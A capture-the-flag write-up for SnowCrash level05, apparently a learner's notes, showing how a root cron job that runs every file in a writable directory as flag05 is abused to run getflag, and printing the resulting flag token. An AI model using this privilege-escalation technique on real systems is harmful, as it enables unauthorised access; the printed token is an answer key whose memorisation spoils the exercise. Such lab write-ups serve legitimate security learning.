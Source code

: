 ## level05
Upon reaching level05, there are no programs or files in the home directory, so I ran `find / -user flag05 2> /dev/null` to look for any files flag05 owns

And turns out, we got our files
```
level05@SnowCrash:~$ find / -user flag05 2> /dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$
```

The file contents are as follows

```bash=
#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Which scans the `/opt/openarenaserver/` directory for files and executes everything that is executable inside with a time limit of 5 seconds for each process. The file is then deleted afterwards.

Gave it a sanity check and it works

```
level05@SnowCrash:/dev/shm$ ./openarenaserver
+ echo asdfx
asdfx
```

I tried to run getflag with it, but I had no luck.

when I tried to `ls -lah` the file, I noticed that there is something special in the permission bit:

```
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

the + bit at the end of the permission bits means that there are additional permissions set by Access Control Lists (ACL). To get information on those permissions, one can use getfacl command

```
level05@SnowCrash:/dev/shm$     getfacl /usr/sbin/openarenaserver
getfacl: Removing leading '/' from absolute path names
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

Nothing useful here it seems, the only implication i get from doing this is that I cant write to that file.

I was curious and also ran getfacl on the /opt/openarenaserver directory, and got something intresting...

```
# file: opt/openarenaserver/
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

I tried changing the permissions of the directory, but it is not permitted


```
level05@SnowCrash:/dev/shm$ chmod -R 2777 /opt/openarenaserver
chmod: changing permiss    ions of `/opt/openarenaserver': Operation not permitted
```

I also tried changing ownership of the script, but it was also not permitted
```
level05@SnowCrash:/opt/openarenaserver$ ls -lah
total 4.0K
drwxrwxr-x+ 2 root    root    60 Oct 12 05:24 .
drwxr-xr-x  1 root    root    60 Oct 12 03:51 ..
-rwxr-x---+ 1 level05 level05 94 Oct 12 05:24 openarenaserver
level05@SnowCrash:/opt/openarenaserver$ chown flag05 openarenaserver
chown: changing ownership of `openarenaserver': Operation not permitted
level05@SnowCrash:/opt/openarenaserver$
```

After a short break and I logged back in, I noticed that I have new mail 

![](https://hackmd.io/_uploads/Bk08akSZT.png)

and upon reading it, I saw a crontab which runs the openarenaserver script every 2 minutes

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This must be a clue, I made a script that echoes to a file and I waited for 2 minutes, eventually the script did get deleted and the contents did appear in the file I specified.

```
level05@SnowCrash:/opt/openarenaserver$ ls
test.sh
level05@SnowCrash:/opt/openarenaserver$ ls
test.sh
level05@SnowCrash:/opt/openarenaserver$ ls
test.sh
level05@SnowCrash:/opt/openarenaserver$ ls
level05@SnowCrash:/opt/openarenaserver$ cat /dev/shm/hello
asdfg
level05@SnowCrash:/opt/openarenaserver$
```

I replaced the contents of the script with getflag, and the file should have the programs output. And once the script runs and gets deleted, the output should have the flag `viuaaale9huek52boumoomioc`

```
level05@SnowCrash:/opt/openarenaserver$ ls
test.sh
level05@SnowCrash:/opt/openarenaserver$ ls
level05@SnowCrash:/opt/openarenaserver$ cat /dev/shm/hello
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/opt/openarenaserver$
```